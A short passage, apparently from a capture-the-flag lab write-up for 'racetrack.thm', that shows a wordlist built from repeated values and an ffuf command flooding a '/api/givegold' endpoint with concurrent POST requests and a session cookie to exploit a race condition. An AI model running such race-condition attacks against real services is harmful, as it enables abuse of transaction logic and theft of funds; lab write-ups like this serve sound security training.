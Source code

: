 ```bash
yes 1 | head -n 1000 > race_wordlist.txt
```

Now, here comes our ffuf command:

```bash
ffuf -c -u http://racetrack.thm/api/givegold -X POST -w race_wordlist.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AEDovzkVYcSpKHzvGEfSU6iAYygzwMrbs.hc2XrqJb%2FSJktcRYPA5faZA0DbBhGaSST1%2BqE%2Fc7PNI" -d "user=test2&amount=FUZZ"
```


![Pasted image 20250612153415.png](../../IMAGES/Pasted%20image%2020250612153415.png)
